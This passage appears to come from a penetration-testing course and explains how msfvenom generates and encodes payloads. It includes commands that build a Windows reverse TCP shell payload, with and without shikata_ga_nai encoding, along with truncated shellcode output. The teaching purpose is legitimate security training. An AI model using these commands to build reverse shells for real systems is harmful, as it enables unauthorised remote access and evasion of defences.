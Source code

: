 After 2015, updates to these scripts have combined them within the `msfvenom` tool, which takes care of payload generation and Encoding. We will be talking about `msfvenom` in detail later on. Below is an example of what payload generation would look like with today's `msfvenom`:

**Generating Payload - Without Encoding**

```shell-session
[!bash!]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of perl file: 1674 bytes
my $buf = 
"\xda\xc1\xba\x37\xc7\xcb\x5e\xd9\x74\x24\xf4\x5b\x2b\xc9" .
"\xb1\x59\x83\xeb\xfc\x31\x53\x15\x03\x53\x15\xd5\x32\x37" .
"\xb6\x96\xbd\xc8\x47\xc8\x8c\x1a\x23\x83\xbd\xaa\x27\xc1" .
"\x4d\x42\xd2\x6e\x1f\x40\x2c\x8f\x2b\x1a\x66\x60\x9b\x91" .
"\x50\x4f\x23\x89\xa1\xce\xdf\xd0\xf5\x30\xe1\x1a\x08\x31" .

<SNIP>
```

We should now look at the first line of the `$buf` and see how it changes when applying an encoder like `shikata_ga_nai`.

**Generating Payload - With Encoding**

```shell-session
[!bash!]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai

Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai succeeded with size 353 (iteration=1)
x86/shikata_ga_nai succeeded with size 380 (iteration=2)
x86/shikata_ga_nai chosen with final size 380
Payload size: 380 bytes
buf = ""
buf += "\xbb\x78\xd0\x11\xe9\xda\xd8\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x59\x31\x58\x13\x83\xc0\x04\x03\x58\x77\x32"
buf += "\xe4\x53\x15\x11\xea\xff\xc0\x91\x2c\x8b\xd6\xe9\x94"
buf += "\x47\xdf\xa3\x79\x2b\x1c\xc7\x4c\x78\xb2\xcb\xfd\x6e"
buf += "\xc2\x9d\x53\x59\xa6\x37\xc3\x57\x11\xc8\x77\x77\x9e"

<SNIP>
```

**Shikata Ga Nai Encoding**

![](https://academy.hackthebox.com/storage/modules/39/shikata\_ga\_nai.gif) Source: https://hatching.io/blog/metasploit-payloads2/
